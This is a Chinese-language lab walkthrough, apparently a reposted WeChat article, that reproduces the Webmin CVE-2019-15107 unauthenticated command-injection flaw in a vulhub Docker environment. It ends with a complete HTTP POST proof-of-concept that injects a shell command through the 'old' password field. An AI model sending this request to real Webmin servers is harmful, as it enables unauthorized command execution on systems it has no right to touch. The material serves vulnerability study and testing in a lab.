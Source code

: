 \> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[mp.weixin.qq.com\](https://mp.weixin.qq.com/s/ZhELKxYl-VbOCB1DO8QdZQ)

![](https://mmbiz.qpic.cn/mmbiz_gif/3xxicXNlTXLicwgPqvK8QgwnCr09iaSllrsXJLMkThiaHibEntZKkJiaicEd4ibWQxyn3gtAWbyGqtHVb0qqsHFC9jW3oQ/640?wx_fmt=gif)  

Webmin 是一个用于管理类 Unix 系统的管理配置工具，具有 Web 页面。在其找回密码页面中，存在一处无需权限的命令注入漏洞，通过这个漏洞攻击者即可以执行任意系统命令。  
使用 vulhub 搭建 docker 环境  
进入 / vulhub-master/webmin/CVE-2019-15107，sudo docker-compose up -d，下载并启动环境  
 ![](https://mmbiz.qpic.cn/mmbiz_png/3xxicXNlTXLicLWwicNF87GPUbA0zzUCRcOwOaYhx0oJaPSbj56Ja9ILNThicLvR8WAYXmqrKWXLHaY7IynWpicxIMA/640?wx_fmt=png)   
进入主页

 ![](https://mmbiz.qpic.cn/mmbiz_png/3xxicXNlTXLicLWwicNF87GPUbA0zzUCRcObbeEwFA4VP721SDMn4yDqlTFy8MLFCS6VwibrRruSfOVoLLFLFfLr5A/640?wx_fmt=png) 

访问 https://ip:10000/password\_change.cgi 根据提示在 docker 容器进行修改

 ![](https://mmbiz.qpic.cn/mmbiz_png/3xxicXNlTXLicLWwicNF87GPUbA0zzUCRcOkfScMpLyZtJXVNmnppcQicFdb6E45r4Ea2MqMZCkfeuUF6z4vbD8dnw/640?wx_fmt=png) 

进入 docker 容器

  
 ![](https://mmbiz.qpic.cn/mmbiz_png/3xxicXNlTXLicLWwicNF87GPUbA0zzUCRcO6NdiaMRaHddNdkjqqvZUxDq7N3yficDIKUTcsPAG3IWc90ViaOb5vibkUw/640?wx_fmt=png) 

vi /etc/webmin/config，修改 / etc/webmin/config

 ![](https://mmbiz.qpic.cn/mmbiz_png/3xxicXNlTXLicLWwicNF87GPUbA0zzUCRcOzh5JoFaBNqTxzam4DWJ9iaQca8GicQEk6vPEjooLvy2KvMmia6hrlFfSg/640?wx_fmt=png) 

将 1 改成 0

 ![](https://mmbiz.qpic.cn/mmbiz_png/3xxicXNlTXLicLWwicNF87GPUbA0zzUCRcO29vtiawFMO7M8TbxzpS17jqY5qhuZOF2TDQUQkRXMPsgeiclaxmT9ZqQ/640?wx_fmt=png) 

  
 ![](https://mmbiz.qpic.cn/mmbiz_png/3xxicXNlTXLicLWwicNF87GPUbA0zzUCRcOq8DjtzibeaZBNze06MKgAfWDGRAEkYuiccIvterWic9pfgp69sWXQPhEA/640?wx_fmt=png)   
burp 抓包使用 poc,old 处填写命令  
![](https://mmbiz.qpic.cn/mmbiz_png/3xxicXNlTXLicLWwicNF87GPUbA0zzUCRcOk7hvpTBICMh99WhA7pLhMMcu3qAUksASok0XpG4P5Jo0WGAEkWzl7g/640?wx_fmt=png)   
POC

```
POST /password\_change.cgi HTTP/1.1
Host: your-ip:10000
Accept-Encoding: gzip, deflate
Accept: \*/\*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Cookie: redirect=1; testing=1; sid=x; sessiontest=1
Referer: https://your-ip:10000/session\_login.cgi
Content-Type: application/x-www-form-urlencoded
Content-Length: 60

user=root&pam=&expired=2&old=ls&new1=test2&new2=test2
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/3xxicXNlTXLicjiasf4mjVyxw4RbQt9odm9nxs9434icI9TG8AXHjS3Btc6nTWgSPGkvvXMb7jzFUTbWP7TKu6EJ6g/640?wx_fmt=jpeg)

推荐文章 ++++

![](https://mmbiz.qpic.cn/mmbiz_jpg/US10Gcd0tQFGib3mCxJr4oMx1yp1ExzTETemWvK6Zkd7tVl23CVBppz63sRECqYNkQsonScb65VaG9yU2YJibxNA/640?wx_fmt=jpeg)

\*[PHP imap 远程命令执行漏洞](http://mp.weixin.qq.com/s?__biz=MzAxMjE3ODU3MQ==&mid=2650485862&idx=3&sn=befa5b706dc20ba6c6324b867c55d73b&chksm=83ba5182b4cdd894b7baf61d5cc5f21433969989f0656f353ef0d07f695a90f3e89942e1d317&scene=21#wechat_redirect)  

\*[CVE-2020-11651 SaltStack 远程命令执行漏洞](http://mp.weixin.qq.com/s?__biz=MzAxMjE3ODU3MQ==&mid=2650468808&idx=3&sn=85551f6094216542f1a35032a71fe1d1&chksm=83bb942cb4cc1d3a3dbe4577ad02e7ad316f2f7ade6e0f27375d0db6747a297bf49f2ee8ec85&scene=21#wechat_redirect)

\*[Spring Data Commons 远程命令执行漏洞（CVE-2018-1273）](http://mp.weixin.qq.com/s?__biz=MzAxMjE3ODU3MQ==&mid=2650465634&idx=3&sn=58d75676d31750ec6e6825724ddaaddd&chksm=83bb8086b4cc099008ec38f34c48c92a4b10f932655ed4a88e4cd60bba6b2d35e1f4e267f080&scene=21#wechat_redirect)

![](https://mmbiz.qpic.cn/mmbiz_png/3xxicXNlTXLib0FWIDRa9Kwh52ibXkf9AAkntMYBpLvaibEiaVibzNO1jiaVV7eSibPuMU3mZfCK8fWz6LicAAzHOM8bZUw/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/mmbiz_gif/NZycfjXibQzlug4f7dWSUNbmSAia9VeEY0umcbm5fPmqdHj2d12xlsic4wefHeHYJsxjlaMSJKHAJxHnr1S24t5DQ/640?wx_fmt=gif)
